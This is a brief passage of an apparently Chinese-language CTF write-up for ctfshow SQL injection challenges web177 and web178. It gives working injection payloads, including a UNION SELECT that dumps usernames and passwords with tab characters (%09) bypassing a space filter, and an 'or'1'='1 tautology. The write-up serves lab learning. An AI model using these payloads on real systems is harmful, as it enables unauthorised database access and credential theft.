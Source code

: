 ![](.\SQL注入\web177.png)

p.s:尝试1‘%9or%091=1%23，失败……



### web178

过滤了空格和*号。

用%09绕过即可

```
1'%09union%09select%09id,username,password%09from%09ctfshow_user%23
```

完事，得到flag

再试试这个也可以

```
id=1'or'1'='1'%23
```

![](.\SQL注入\web178.png)
